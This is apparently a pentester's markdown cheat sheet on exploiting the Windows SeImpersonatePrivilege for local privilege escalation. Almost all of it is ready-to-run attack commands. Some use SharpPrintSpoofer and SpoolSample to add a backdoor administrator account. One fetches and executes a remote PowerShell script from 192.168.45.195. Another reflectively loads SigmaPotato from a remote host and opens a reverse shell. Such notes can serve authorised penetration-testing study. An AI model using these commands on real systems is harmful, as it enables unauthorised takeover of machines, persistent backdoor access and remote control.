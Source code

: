 # Leveraging SeImpersonatePrivilege

## Method 1

- We can exploit it using the two tools: `SpoolSample.exe` and `SharpPrintSpoofer.exe`.
- My recommendation will be just to create a new local administrator: 
```
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net user amit Password123! /add"
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net localgroup administrators amit /add"
```

Once SharpPrintSpoofer is listening, trigger the pipe with SpoolSample:
- `.\SpoolSample.exe <hostname> <hostname>/pipe/test`

## Method 2 - two in one
*Note: The SpoolSampleModified including already the functionality of `SharpPrintSpoofer.exe`, thus this one binary can handle the privielge escalation.*

Transfer to victim and run:
- `SpoolSampleModified.exe <hostname> <hostname>/pipe/test "C:\Windows\System32\cmd.exe /c powershell iex(iwr http://192.168.45.195/hollow.ps1 -useb)"`

## Method 3 - .NET Reflection with SigmaPotato

Load from a Remotely Hosted Binary via a WebClient:
```powershell
$WebClient = New-Object System.Net.WebClient
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/SigmaPotato.exe")
[System.Reflection.Assembly]::Load($DownloadData)
# Execute Command
[SigmaPotato]::Main("<command>")
# Establish a PowerShell Reverse Shell (one-liner)
[SigmaPotato]::Main(@("--revshell","<ip_address>","<port>"))
```
